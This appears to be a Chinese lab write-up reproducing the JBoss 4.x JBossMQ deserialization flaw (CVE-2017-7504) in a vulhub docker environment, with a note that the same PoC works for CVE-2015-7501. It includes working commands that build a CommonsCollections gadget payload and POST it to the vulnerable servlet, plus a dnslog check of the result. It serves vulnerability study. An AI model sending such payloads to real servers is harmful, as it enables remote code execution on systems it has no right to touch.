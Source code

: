 JBoss 4.x JBossMQ JMS 反序列化漏洞
--

复现环境来自vulhub:
https://github.com/vulhub/vulhub/tree/master/jboss/CVE-2017-7504



Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

参考：

- https://github.com/joaomatosf/JavaDeserH2HC
- https://www.youtube.com/watch?v=jVMr4eeJ2Po

## 漏洞环境

执行如下命令启动JBoss AS 4.0.5：

```
docker-compose up -d
```

环境启动后，目标为`http://your-ip:8080`。

## 漏洞复现

参考利用工具[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)，我们选择一个Gadget：`ExampleCommonsCollections1WithHashMap`，编译并生成序列化数据：

```
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "touch /tmp/success"
```

可见，我们执行的命令是`touch /tmp/success`。执行完成后，将生成一个文件`ExampleCommonsCollections1WithHashMap.ser`，将该文件作为body发送如下数据包：

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser
```

上述是来自vulhub的readme,但是我在使用curl发送数据包的时候出现了一些问题，所以，我还是通过python写了个脚本来发送的payload,burp抓包如下（需要注意的是content-type为x-amf）

![](assets/poc1.png)

我执行的命令是ping我的dnslog平台，dnslog成功记录到

![](assets/poc2.png)

证明漏洞成功利用


### cve-2015-7501

这个漏洞与上个漏洞的poc是同一个，只是利用路径更改为/invoker/JMXInvokerServlet



